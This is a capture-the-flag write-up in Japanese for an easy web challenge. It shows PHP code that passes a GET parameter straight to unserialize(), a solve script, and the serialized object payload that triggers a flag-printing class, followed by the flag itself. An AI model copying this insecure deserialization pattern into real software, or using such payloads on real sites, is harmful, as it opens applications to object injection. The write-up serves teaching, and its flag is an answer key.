

# [Web(easy)]Yonezer

## 問題文

米津玄師の音楽をシェアしたかったので簡単なアプリケーションを書いてみました。

<http://203.0.113.1:14001/>

---

作問者(Author): [wa1m3im](https://twitter.com/wa1m3) / レビュワー(Reviewer): [odgrso](https://twitter.com/odgrso)

## Writeup

ソースコードを確認するとGETリクエストで受け取った`data`パラメータをデシリアライズしていることが確認できる。

```php
$serialized = @$_GET["data"];
$hoge = @unserialize($serialized);
if($hoge){
	$hoge->data();

}
```

また、対象のアプリケーションでは`share_video`と`secret`クラスが宣言されている。

```php
class secret{

	public function data(){
		global $flag;
		echo($flag);
	}

}


class share_video{
	public $text="Hello Everone";

	public function data(){
		echo("<h1>" . html($this->text) . "</h1><br>");
		echo("<MARQUEE><h1>Do you like this video &#x1f440;?</h1></MARQUEE>\n");
		$urls = ["https://www.youtube.com/embed/s582L3gujnw","https://www.youtube.com/embed/gJX2iy6nhHc", "https://www.youtube.com/embed/SX_ViT4Ra7k","https://www.youtube.com/embed/Zw_FKq10S8M"];
		$num = rand(0,3);
		$url = $urls[$num];
		echo ("<div id=\"all\"><iframe width=\"1000\" height=\"600\" src=\"". $url . "\"></iframe></div>");

		}
	}
```

`secret`クラスではflag.txtを読み込んで出力する処理が書かれているのでこのクラスを呼び出すことによってフラグを獲得することができる。

よってローカル環境で以下のphpスクリプトを実行後、出力されたデータをURLパラメータに付与することによってフラグを獲得することができる。

```php
<?php
class secret{

	public function data(){
	global $flag;
	echo($flag);
    }

}

$obj =  new secret();
echo(serialize($obj));

?>
```

```bash
$php solve.php
O:6:"secret":0:{}
```



### flag

`ISCCTF{s3r14r41z3_1s_us3ful}`
